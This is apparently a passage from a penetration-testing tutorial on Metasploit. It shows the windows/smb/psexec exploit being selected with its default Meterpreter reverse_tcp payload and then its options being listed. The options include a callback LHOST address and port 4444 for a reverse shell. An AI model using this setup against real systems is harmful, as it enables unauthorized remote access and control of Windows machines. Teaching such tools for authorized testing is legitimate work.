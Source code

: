 ### **Option Selection**

```
msf6 > use 56

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) >
```

Notice how `exploit` is outside of the parentheses. This can be interpreted as the MSF module type being an exploit, and the specific exploit & payload is written for Windows. The attack vector is `SMB`, and the Meterpreter payload will be delivered using [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec). Let's learn more about using this exploit and delivering the payload by using the `options` command.

### **Examining an Exploit's Options**

```
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo                                                    lder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
